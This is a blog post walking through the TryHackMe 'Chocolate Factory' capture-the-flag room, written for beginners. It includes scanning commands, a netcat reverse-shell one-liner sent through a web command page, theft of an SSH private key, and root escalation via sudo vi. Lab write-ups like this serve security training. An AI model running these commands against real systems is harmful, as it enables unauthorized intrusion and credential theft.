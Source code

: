 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2021-02-03
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: cholocate.tryhackme/titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```

Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners. 
Let’s get started. Firstly Deploy the machine and wait a minute for getting the IP address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)


## Reconnaissance
 
     sudo nmap -sV -sC -v <ip>
    
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
The result looks like,<br />

  
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/init1.png)
   

There can see FTP running on port 21, ssh running on port 22, and webserver in port 80 Then try Open browser enter IP address default web server running in port 80 
  
  ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/init2.png)

I trying SQL injection but nothing changes, So Check the directories using the gobuster tool.

    gobuser dir -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
 
#### Enumeration 

OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  Try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
  Remember one thing disable ufw firewall before the listening netcat. <br />
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   Use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' 
      
   Then list out the file and read the file..
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   Read validate.php
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/validateuser.png)
   
   Change the user to charlie <br/>
   /home/charlie and list all files <br />
   Found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change the permission.
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/id_rsa.png) <br />
   
    chmod 600 filename 
    
   Login with ssh charlie user
    
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
  Read the user key <br />
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) 
   
 ## Privilege Escalation
 <br />
  Check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   Get root permission using vi.<br />
   Use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   Search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   Copy the command and paste into the terminal and hit enter <br />
   Now root user <br >
   Change charlie to root <br />
   
    su root
   
   
   List the files and run python file, enter the key 
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   DONE !!!
  
